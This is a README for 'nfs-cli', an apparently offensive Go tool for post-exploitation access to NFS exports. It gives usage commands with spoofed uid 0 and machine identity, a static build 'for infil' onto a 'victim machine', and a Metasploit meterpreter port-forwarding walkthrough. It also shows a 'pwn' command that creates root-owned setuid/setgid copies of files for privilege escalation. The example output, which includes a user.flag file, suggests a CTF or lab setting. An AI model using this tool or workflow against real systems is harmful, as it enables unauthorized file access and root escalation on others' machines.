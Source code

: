 # nfs-cli

Simple cli for nfs. No NFS acls are bypassed or anything. This is not an exploit. You can set machine identifier, uid and gid though.

(And no, this doesn't work through a metasploit socks proxy, as go doesn't obey proxychains.)

**It really shines when built static and uploaded to a victim machine**

## Usage
```sh
nfs-cli -machine iamallowed -uid 0 -gid 0 -target /path/to/exported/path -rhost remoteserver
```

Build static (for infil):
```sh
CGO_ENABLED=0 go build -a -ldflags '-extldflags "-static"' .
```

### Commands
Note: Don't include slashes in paths, this tool is pretty dumb.

- `ls` - list files i cwd
- `cd newdir` - change cwd
- `mkdir newdir` - create a directory (mode `06777`)
- `cat file` - view file
- `get file` - download file
- `b64get file` - download file "visually" in base64 format
- `put file` - upload file (mode `06777`)
- `b64put file` - will prompt for base64 input and upload (mode `06777`)
- `rm file` - delete file
- `rmdir dir` - delete directory (and recursive)
- `pwn file` - copies `file` to `file.pwn` and sets mode `06777`

The suid-bit doesn't work unless you are root, not sure if this is nfs or the library.

## Example
Metasploit:
```
# we can't forward listening sockets
sudo systemctl stop portmap
sudo systemctl stop rpcbind.socket

sudo msfconsole -q   # 111 is privileged, see below for workaround
...
meterpreter > shell
Process XYZ created.
Channel ZYX created.
$ rpcinfo -a
   program vers proto   port  service
   ...
    100005    2   tcp  20048  mountd      <--this is the portnumber you want
   ...
$ exit
meterpreter > portfwd add -l 111 -L 0.0.0.0 -p 111 -r 127.0.0.1
meterpreter > portfwd add -l 2049 -L 0.0.0.0 -p 2049 -r 127.0.0.1
meterpreter > portfwd add -l 20048 -L 0.0.0.0 -p 20048 -r 127.0.0.1
```

Client:
```
./nfs-cli -uid 0 -gid 0 -machine iamtrusted -rhost localhost -target /home/james
[/home/james] .> ls
  [.                                       ]  1000: 1000 (00700) 129
  [..                                      ]     0:    0 (00000) 0
  [.bash_logout                            ]  1000: 1000 (00644) 18
  [.bash_profile                           ]  1000: 1000 (00644) 141
  [.bashrc                                 ]  1000: 1000 (00644) 312
  [.ssh                                    ]  1000: 1000 (00700) 61
  [.bash_history                           ]     0:    0 (00777) 9
  [user.flag                               ]  1000: 1000 (00644) 38
  [README.md                               ]  1000: 1000 (00777) 2785
[/home/james] .> pwn README.md
[/home/james] .> ls
  [.                                       ]  1000: 1000 (00700) 150
  [..                                      ]     0:    0 (00000) 0
  [.bash_logout                            ]  1000: 1000 (00644) 18
  [.bash_profile                           ]  1000: 1000 (00644) 141
  [.bashrc                                 ]  1000: 1000 (00644) 312
  [.ssh                                    ]  1000: 1000 (00700) 61
  [.bash_history                           ]     0:    0 (00777) 9
  [user.flag                               ]  1000: 1000 (00644) 38
  [README.md                               ]  1000: 1000 (00777) 2785
  [README.md.pwn                           ]     0:    0 (06777) 2785
[/home/james] .> 
```

## Alternative usage (non-priv)
```
git clone https://github.com/go-nfs/nfsv3.git
cd nfsv3
# copy main.go here
# edit nfs/rpc/portmap.go and change PmapPort to 9111
go run . -h
```

Now it's possible to `portfwd add -l 9111 -L 0.0.0.0 -p 111 -r 127.0.0.1` instead. No need to run `msfconsole` as root.
